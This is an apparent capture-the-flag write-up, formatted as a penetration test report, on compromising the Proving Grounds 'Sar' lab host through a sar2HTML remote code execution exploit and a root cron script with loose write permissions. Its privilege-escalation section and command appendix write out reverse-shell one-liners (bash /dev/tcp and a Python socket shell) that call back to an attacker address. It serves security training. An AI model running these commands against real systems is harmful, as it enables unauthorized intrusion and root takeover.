# Penetration Test Report for Proving Grounds - Sar
- **Author:** Joey Melo
- **Date:** March 19, 2022
- **Client:** Proving Grounds
- **Host:** 192.168.214.35

## Disclaimer
The following report is the solution of a challenge in a learning platform that has no association whatsoever with the author. Please consider this report as a rough simulation of what a real pentesting report looks like. Attempting to use the methodologies demonstrated in this report in unauthorized networks is ILLEGAL. The author is not responsible for improper use or unauthorized modifications of this information. The author assumes no liability for the use of information disclosed in this report. Any damage or loss that may result from improper use of the information contained in this report is the sole responsibility of the user and not the author. The author recommends safe practices and an ethical standpoint when working with clients and or with tools demonstrated in this report.

## Introduction
This penetration test report contains all efforts that were conducted in order to assess the security of Proving Grounds. This report contains all items that were used to penetrate and gain privileged access to the remote host(s). The purpose of this report is to showcase that the tester has a full understanding of penetration testing methodologies as well as the technical knowledge to perform professional cybersecurity assessments.

## Objectives
The objective of this assessment is to perform an internal penetration test against the Sar network. The tester is tasked with following a methodical approach in obtaining access to the objective goals. This test should simulate an actual penetration test and how one would start from beginning to end, including the overall report.

## Executive Summary
The tester was tasked with performing an internal penetration test towards the Sar network. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks similar to those of a hacker and attempt to infiltrate Proving Grounds's internal lab systems. The tester's overall objective was to evaluate the network, identify systems, and exploit flaws while reporting the findings back to Proving Grounds.
When performing the internal penetration test, there were several alarming vulnerabilities that were identified on the Sar network. When performing the attacks, the tester was able to gain access to the machine, primarily due to a vulnerable sar2HTML application running in the HTTP server. The host has been successfully exploited, and privileged access was gained in the machine.

## Recommendations
The tester recommends patching the vulnerabilities identified during the testing to ensure that an attacker cannot exploit these systems in the future. One thing to remember is that these systems require frequent patching and, once patched, should remain on a regular patch program to protect additional vulnerabilities that are discovered at a later date.

# Assessment
## Service Enumeration
### Port Scan Results
**TCP:** 22,80
## Initial Access
### Vulnerability Explanation
The HTTP server is running a deprecated version of sar2HTML, which is vulnerable to remote code execution.
### Vulnerability Fix
Update the application to its latest version or apply the vendor's patch.
### Attack Walkthrough
The tester verified an outstanding folder listed in the */robots.txt* endpoint in the HTTP server, revealing the */sar2HTML* endpoint.

![robots.txt entry](https://imgur.com/S9HiLBg.png)

![sar2HMTL front page](https://imgur.com/rpvFEDt.png)

The application's self-reported version is 3.2.1, which is vulnerable to remote code execution. The tester utilized a publicly available exploit to obtain initial access to the system.
```bash
searchsploit sar2HTML
searchsploit -m 49344
mv 49344.py sar2html-exploit.py
python3 sar2html-exploit.py
```

![Command execution through exploit](https://imgur.com/LfrvtDR.png)

![Reverse shell obtained](https://imgur.com/rdITgqZ.png)

As proof of exploitation, the tester captured the *local.txt* flag.

![User flag](https://imgur.com/d8hjxb1.png)

## Privilege Escalation
### Vulnerability Explanation
The internal system has a scheduled task that is run with root privileges. This task executes a script in which the local users have write privileges. A low-privileged user may modify the task to add malicious code and obtain high-privileged access to the machine.
### Vulnerability Fix
Remove global write permissions from the */var/www/html/write.sh* script.
### Attack Walkthrough
After establishing a foothold on the target, the tester noticed a task that executed a script named *finally.sh* with high privileges. Part of this script executed another script named *write.sh* in which the user had write access. The tester was able to append malicious code to the *write.sh* file to obtain a high-privileged shell in the system. 
```bash
echo 'bash -i >& /dev/tcp/192.168.49.214/9999 0>&1' >> /var/www/html/write.sh
```

![privileged script being executed by root with write access](https://imgur.com/Cu6BdM2.png) 

## Post-Exploitation
As proof of post-exploitation, the tester captured the *proof.txt* flag.

![Root flag](https://imgur.com/XpfleOl.png)

# Appendix A: Commands Issued
```bash
# Enumeration
sudo nmap -sC -sV -oN tcp_ports.nmap -p- 192.168.214.35 
gobuster dir -u http://192.168.214.35 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php,html,txt -o directories.txt

# Exploit Search
searchsploit sar2HTML
searchsploit -m 49344
mv 49344.py sar2html-exploit.py
python3 sar2html-exploit.py

# Reverse Shell
kali> nc -lvnp 1337
exploit> export RHOST="192.168.49.214";export RPORT=1337;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'

# Initial Access
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
# ctrl +z
stty raw -echo; fg
cd /home
cat local.txt

# Privilege Escalation
cat /etc/crontab
cat /var/www/html/finally.sh
ls -la /var/www/html/finally.sh
ls -la /var/www/html/write.sh
kali> nc -lvnp 9999 # on local machine
echo 'bash -i >& /dev/tcp/192.168.49.214/9999 0>&1' >> /var/www/html/write.sh # wait 5 minutes
```

